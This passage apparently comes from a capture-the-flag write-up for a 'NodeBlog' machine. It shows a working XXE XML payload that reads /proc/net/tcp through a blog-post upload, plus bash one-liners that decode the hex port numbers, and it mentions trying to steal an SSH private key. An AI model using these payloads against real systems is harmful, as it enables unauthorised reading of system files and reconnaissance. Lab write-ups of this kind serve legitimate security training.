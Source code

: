I try to get the private key of the `admin` user to connect via **SSH**, but it doesn't seem to exist. But I can also look up the **IPV4 addresses** in the **Forwarding Information Base table** in the file **/proc/net/fib_trie**, and it seems to get all the information from the victim host and not from a container. I can also get all **TCP connections** from the **/proc/net/tcp** file. And using an **One Liner** I can get all the ports in use on the machine.

> **xxe.xml**

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///proc/net/tcp" >]>
<post>
<title>Oldboy</title>
<description>Hello World</description>
<markdown>&xxe;</markdown>
</post>
```

```bash
vi data
cat data | awk '{print $2}' | grep -v local | awk 'NF{ print $NF}' FS=':' | sort -u | sponge data

# Using obase ibase
for port in $(cat data); do echo "[+] Port $port -> $(echo "obase=10; ibase=16; $port" | bc)"; done

# A simpler way
for port in $(cat data); do echo "[+] Port $port (hex) --> $((0x$port)) (dec)"; done
```

> **Tip**: To get all the open ports of my machine

```bash
for port in $(cat /proc/net/tcp | awk '{print $2}' | grep -v local | awk 'NF{ print $NF}' FS=':'); do echo "[+] Port $port -> $(echo "obase=10; ibase=16; $port" | bc)"; done
```

<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_30.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_31.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_32.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
